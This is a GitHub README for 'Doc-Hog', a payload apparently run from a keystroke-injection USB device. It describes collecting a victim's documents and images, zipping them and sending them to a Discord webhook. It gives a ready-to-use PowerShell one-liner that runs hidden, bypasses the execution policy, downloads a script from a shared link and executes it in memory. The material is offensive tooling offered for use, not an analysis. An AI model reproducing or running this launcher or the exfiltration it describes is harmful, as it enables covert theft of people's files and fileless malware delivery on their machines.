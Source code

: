 
<h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Welcome+to+the;Doc+Hog!+😈&center=true&size=30">
  </a>
</h1>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Doc-Hog

A payload to exfiltrate all files like, PNG, DOCX, PDF, TXT, Excel, JPEG, and CSV

## Description

This payload will enumerate through the files. Then create ZIPs with them, then send to a discord webhook.

## Getting Started

### Dependencies

* DropBox or other file sharing service - Your Shared link for the intended file
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
```
powershell -w h -NoP -NonI -ep Bypass $pl = iwr < Your Shared link for the intended file> ?dl=1; iex $pl
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

atomiczsec
I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div align="center">
  <a href="https://lnk.bio/atomiczsec">
    <img src="https://github.com/atomiczsec/My-Payloads/blob/main/Assets/sharethis-social-media-svgrepo-com.svg" width="48" height="48" alt="Link" />
  </a>
</div>


<p align="right">(<a href="#top">back to top</a>)</p>




<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [I-Am-Jakoby](https://github.com/I-Am-Jakoby)

<p align="right">(<a href="#top">back to top</a>)</p>